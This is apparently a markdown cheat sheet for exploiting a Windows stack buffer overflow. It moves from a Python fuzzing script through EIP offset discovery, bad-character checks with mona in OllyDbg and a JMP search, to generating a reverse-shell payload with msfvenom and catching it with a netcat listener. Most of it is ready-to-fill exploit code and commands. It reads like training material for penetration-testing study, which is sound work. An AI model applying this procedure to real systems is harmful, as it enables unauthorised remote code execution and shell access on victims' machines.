 ## Buffer Overflow

### Finding the buffer overflow

Send large amounts of information to any available input parameters.  You're looking for the program to exit from an unhandled exception.

#### Sample Python fuzzing script
```
#!/usr/bin/python

# this is a very general python script that connects to a host/port and sends a payload.  It needs to be customized for the particular inputs to be tested in the applciation.

import sys, socket
HOST = <host or ip address>
PORT = <service port>
LENGTH = <length of buffer payload>

payload = "\x41" * LENGTH

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST, PORT))
s.send(payload)
s.recv(1024)
s.close()
```

#### Finding an offset value for EIP

```
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <length>

# check the value stored in EIP and pass it to the pattern_offset tool

/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <eip value> <length>
```

#### Verify EIP
```
# configure payload with the offset value
# using the python script above

offset = "\x41" * <offset value> 
EIP = "\x42\x42\x42\x42"
Payload = offset + EIP

# Run the script and check the EIP value.  If it indicates 'BBBB', we are able to write to EIP using the offset.

```

#### Finding where to place shellcode
```
# configure a test payload including the offset and EIP values 
# using the python script above

offset = "\x41" * <offset value> 
EIP = "\x42\x42\x42\x42"
shellcode = "\x43" * <length>
Payload = offset + EIP + shellcode

# run the script and check the stack.  if the 'C' values are present beyond the 'B' values, we have identified space for shellcode.  
# Identify whether an existing register is pointing to the shellcode space in the stack.
```

##### Generate bad characters

```
#! /usr/bin/python3
import sys
for x in range(1,256):
    sys.stdout.write("\\x" + '{:02x}'.format(x))
```
Execute the script and copy the output to paste into `ollydbg`  

##### Create a bytearray of badcharacters in ollydbg

```
# at the ollydbg command window

# create a bytearray of all available hexideciaml characters
!mona bytearray -b
```
##### Identify the memory location of the badcharacter array sent

```
# at the ollydbg command window

# using the memory address of the badcharacter array, pass it to mona and compare to our previously created bytearray
!mona compare -f bytearray.bin -a <memory address>
```
##### Verify the bad characters identified
```
# configure a test payload to exclude the known bad characters 
# using the python script above

offset = "\x41" * <offset value> 
EIP = "\x42\x42\x42\x42"
shellcode = "string of all hex characters excluding the identified bad characters"  
Payload = offset + EIP + badchars

#Execute the script  
```

##### Verify the remaining hex characters are valid

```
# at the ollydbg command window

# using the memory address of the badcharacter array, pass it to mona and compare to our previously created bytearray
!mona compare -f bytearray.bin -a <memory address>
```
##### Identify a JMP or CALL instruction to the shellcode memory address

```
# at the ollydbg command window

!mona jmp -r <memory address or register> -cpb "<bad characters>"
# return pointers are candidates for the EIP value

# to test the values, set a breakpoint at the JMP instruction address and then modify the python script with the memory address as the EIP value.  
# Remember the addresses are expressed in little endian, so they have to be entered in reverse.
# for example, a memory address of 565266B3 would be expressed as:
# EIP = "\xb3\x66\x52\x56" in the python script.
# if the breakpoint is reached after running the python script, proceed to the next step.
```

##### Generate shell code

```
# sample stageless reverse shell for windows
msfvenom -p windows/shell_reverse_tcp LHOST=<local ip> LPORT=<local listening port> EXITFUNC=thread -b "<badcharacters>" -f py

# add the output to the script.  It may also be necessary to add some NOPs prior to the shellcode in case the JMP instruction is not exact.

```
offset = "\x41" * <offset value> 
EIP = "<memory address for JMP to shellcode"
shellcode = "<shellcode output from msfvenom command"  
nops = "\x90" * 10 # experiment for number of nops as needed
Payload = offset + EIP + nops + shellcode
  
```
##### Start the remote listener and execute the script
```
nc -lvp <port>

# if it all works, you'll get a shell
```
